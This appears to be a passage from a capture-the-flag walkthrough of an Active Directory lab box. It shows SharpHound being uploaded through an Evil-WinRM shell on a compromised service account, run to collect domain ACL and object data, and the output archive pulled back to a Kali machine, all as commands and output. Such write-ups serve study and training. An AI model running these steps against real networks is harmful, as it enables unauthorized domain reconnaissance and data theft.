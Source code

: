 To investigate a specific domain, we can use `bloodhound`.<br>
We can install it by using `pip install bloodhound` command.<br>

### Setting up bloodhound GUI
I don't talk about it since it can be so lengthy!!<br>
[Useful link](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux)

### Analyzing the forest
#### 1. Clone Bloodhound repository
```shell
root@kali:~# git clone https://github.com/BloodHoundAD/BloodHound.git
```

#### 2. Collecting domain information with SharpHound.ps1
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload /root/BloodHound/Ingestors/SharpHound.ps1
Info: Uploading /root/BloodHound/Ingestors/SharpHound.ps1 to C:\Users\svc-alfresco\Documents\SharpHound.ps1

                                                             
Data: 1297080 bytes of 1297080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls


    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/8/2020   1:40 PM         972811 SharpHound.ps1


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-module ./SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -RemoveCSV -NoSaveCache
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls


    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/8/2020   1:42 PM          15234 20200608134233_BloodHound.zip
-a----         6/8/2020   1:40 PM         972811 SharpHound.ps1


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20200608134233_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Documents\20200608134233_BloodHound.zip to 20200608134233_BloodHound.zip

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> exit

Info: Exiting with code 0

root@kali:~/evil-winrm# ls
```